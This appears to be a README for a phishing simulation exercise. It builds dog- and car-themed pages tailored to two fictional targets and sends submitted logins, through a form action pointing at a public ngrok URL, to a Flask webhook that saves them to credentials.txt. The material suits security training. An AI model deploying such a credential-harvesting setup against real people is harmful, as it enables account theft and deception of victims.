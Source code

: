 
## Phishing Simulation Project

This project involves setting up themed websites for two fictional characters, Bob (dog lover) and Alice (car enthusiast), and capturing submitted credentials via a Flask webhook.


### Project Structure
```plaintext
Phishing.project/
├── bob_site/ (Dog-themed website)
├── alice_site/ (Car-themed website)
├── webhook_server/ (Flask server to capture data)
└── README.md
```

## **Setup Instructions**

### **1. Prerequisites**
- Python 3.6+
- Flask
- Ngrok


   ```
### Steps

1. **Run the Webhook Server**
   ```bash
   cd webhook_server
   python webhook.py
   ```

2. **Expose Local Server Using Ngrok**
   ```bash
   ngrok http 5000
   ```
   Update the form `action` in `index.html` with the Ngrok public URL:
   ```html
   <form action="http://your-ngrok-url/webhook" method="POST">
   ```

3. **Serve the Websites**
   ```bash
   cd bob_site
   python -m http.server 8080
   ```
   Visit `http://127.0.0.1:8080` in your browser.

4. **Test and Capture Credentials**
   Submit test credentials on the websites. Captured credentials will be saved in `credentials.txt`.


### **5. Test the Setup**

1. Open the website in a browser.
2. Enter test credentials and submit the form.
3. Check the `credentials.txt` file in the `webhook_server` directory for captured credentials.

---

## **Troubleshooting**

### Common Issues

#### 1. **404 Error on `/webhook` Route**
- Ensure the form’s `action` URL matches the Flask route (`/webhook`).
- Verify Flask is running and listening on port 5000.

#### 2. **`credentials.txt` Not Updated**
- Confirm `webhook.py` has permission to write to `credentials.txt`.
- Manually create an empty `credentials.txt` file in the `webhook_server` directory and ensure it is writable.

---

## **Project Components**

### Flask Webhook Server (`webhook.py`)
- Captures form data and writes credentials to `credentials.txt`.

### Bob’s and Alice’s Websites
- Custom HTML and CSS themes designed to appeal to each target.

---


